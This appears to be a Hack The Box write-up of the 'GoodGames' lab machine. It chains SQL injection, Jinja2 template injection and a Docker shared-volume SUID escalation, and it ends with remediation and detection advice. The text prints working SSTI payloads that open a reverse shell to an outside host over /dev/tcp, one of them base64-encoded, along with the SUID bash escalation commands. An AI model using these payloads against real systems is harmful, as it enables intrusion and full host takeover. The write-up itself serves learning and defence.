# GoodGames — Hack The Box

* **Difficulty:** Easy
* **OS:** Linux (Debian / Docker Containerized Architecture)
* **Focus Areas:** SQL Injection | Python Flask / Jinja2 SSTI | Network Pivoting | Docker Container Breakout
* **Date Completed:** 2026-11-22

---

## 1. Executive Summary
**GoodGames** demonstrates an end-to-end application-to-infrastructure compromise. Initial reconnaissance revealed a Python Flask web application vulnerable to **SQL Injection** on the login endpoint, exposing administrative credentials and an internal subdomain. Authenticating to the internal portal uncovered a **Server-Side Template Injection (SSTI)** flaw in Jinja2, yielding remote code execution (`root`) inside a Docker container. Finally, by pivoting across the Docker bridge network and abusing a shared host volume mounted with root UID permissions, full privilege escalation (`root`) on the underlying host OS was achieved.

---

## 2. Reconnaissance & Enumeration

### Port Scan (`nmap`)
```bash
nmap -sC -sV -p- -T4 <TARGET_IP> -oN nmap_goodgames.txt
```

* **Port 80 (HTTP):** Werkzeug / Python Flask web application (`goodgames.htb`).

### Web & Subdomain Enumeration
Well, /login instantly caught attention.
* Discovered a login form at `/login` backed by a SQL database.
---

## 3. Initial Foothold (SQL Injection → Jinja2 SSTI)

### Step 1: SQL Injection & Credential Extraction
* **Vulnerability:** Unsanitized user input in the `/login` POST parameter allowed UNION-based SQL injection.


* **Exploitation:**
```bash
# Extract database tables and administrative password hash
sqlmap -r login_req.txt --dbs --batch
```

```
sqlmap -r login_req.txt -D main -T user --dump --batch
```


* **Result:** Recovered `admin` MD5 hash and cracked it (`[REDACTED_PASSWORD]`), granting access to `internal-administration.goodgames.htb`.



### Step 2: Python Flask / Jinja2 SSTI
* **Vulnerability:** User profile fields inside the internal admin panel were rendered unsafely using Jinja2 templates.
* **Verification Probe:**
```text
{{7*7}}  --> Rendered as 49
```

* **Remote Code Execution Payload:**
```python
{{ namespace.__init__.__globals__.os.popen("bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'").read() }}
```
```
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMjAvNDQ0NCAwPiYx${IFS}|base64${IFS}-d|bash').read()}}
```
here to acheive reverse shell we encode the shell in bases64 but why ?
--> This is because some characters have special meanings to shells or can cause problems when passing commands through templates and intermediate interpreters.
for example: ```bash -i >& /dev/tcp/10.10.14.23/4444 0>&1```, in this symbols like >, /,spaces contain shell descriptors and can interact with the filters and parsing roles.




A directory list of user augustus home directory shows that instead of their name, the UID 1000
is displayed as the owner for the available files and folders. This hints that the user's home
directory is mounted inside the docker container from the main system. 

* **Result:** Obtained an interactive shell as `root` inside the Docker container (`/.dockerenv` present).

 Checking ```mount``` we see that the user directory from the host is indeed mounted with read/write flag enabled.
 
---

## 4. Lateral Movement & Internal Network Pivoting
* **Container Network Discovery:** Enumerated network interfaces (`ip a` / `ip route`) and discovered the Docker bridge gateway at `172.19.0.1` alongside a mounted host directory at `/home/augustus`.



<b> So one question here, why to scan the docker bridge gateway instead of the container itself ?<b>
The container might have limited access to the host's services, but the gateway address can expose services listening on the host-side bridge interface.

For example, you might discover:
- SSH (22)
- HTTP (80)
- Docker API (2375)
- Other internal services
and don't restrict to the container itself. The docker has its own network architecture.


Think in terms of three layers:
| Layer | What to investigate |
| :--- | :--- |
| Current container	| Users, processes, files, capabilities |
| Docker network	| Gateway , neighboring containers, reachable services |
| Docker host	| Host services, mounted directories, container configuration |

The key is that the Docker gateway and the Docker container are two different network endpoints. Scanning the gateway does not directly enumerate the container's ports. It enumerates services reachable at the gateway's IP address.

We use bash to scan the gateway because nmap is not installed in the system.

* **Lateral Movement to Host:**
```bash
# Verified SSH access on the Docker host gateway using password reuse
ssh augustus@172.19.0.1
```
* **Result:** Authenticated as low-privilege user `augustus` on the underlying host machine.

---

## 5. Privilege Escalation (Docker Shared-Volume Breakout)
* **Vector:** The `/home/augustus` directory on the host was bind-mounted directly into the container, where our shell was running as `root` (`UID 0`). Because Docker shares the host kernel UID namespace by default, files written by container `root` inherit `root` ownership on the host.
* **Exploitation Steps:**
```bash
# On the host (as augustus): copy /bin/bash into the shared home directory
cp /bin/bash /home/augustus/bash

# Inside the container (as container root): change ownership to root and set the SUID bit
chown root:root /home/augustus/bash
chmod 4755 /home/augustus/bash
```

```
# On the host (as augustus): execute the SUID binary with -p to preserve root privileges
/home/augustus/bash -p
```

* **Result:** Escalated to `root` (`euid=0`) on the underlying host OS and retrieved `root.txt`.

---

## 6. Defensive Remediation & Detection (Cloud / AI Security Lens)

### How to Fix
1. **Prevent SQL Injection:** Use parameterized queries / prepared statements (e.g., SQLAlchemy ORM bindings) instead of raw string concatenation.
2. **Mitigate Python SSTI:** Never pass user-controlled strings into `render_template_string()`. Always use static template files with auto-escaping enabled (`render_template("profile.html", username=user_input)`).
3. **Eliminate Credential Reuse:** Enforce unique secrets across web applications and host SSH services; disable password-based SSH authentication in favor of key-based access.
4. **Harden Docker Containers:**
   * Never run application containers as `root`—explicitly define a non-root user (`USER 1000:1000`) in the `Dockerfile`.
   * Enable Docker **User Namespace Remapping (`userns-remap`)** so container `UID 0` maps to an unprivileged UID on the host.
   * Mount shared volumes with `nosuid` and `ro` (read-only) flags wherever possible.

### How to Detect
* **Application Layer:** Monitor WAF and reverse-proxy logs for SQLi syntax (`UNION SELECT`) and Jinja2 template injection patterns (`{{`, `__globals__`, `os.popen`).
* **Container Runtime Security:** Deploy runtime threat detection (such as **Falco**) to alert on unexpected shell spawns (`bash -i`) inside Python/Flask containers or SUID bit modifications (`chmod 4755`) on mounted volumes.

### AI & Cloud Infrastructure Takeaway
* In modern ML/AI architectures (e.g., Flask/FastAPI inference APIs or Jupyter/Ray compute containers), an injection vulnerability inside a single model-serving container can quickly lead to full host compromise and theft of proprietary model weights if containers run as `root` with shared host mounts.
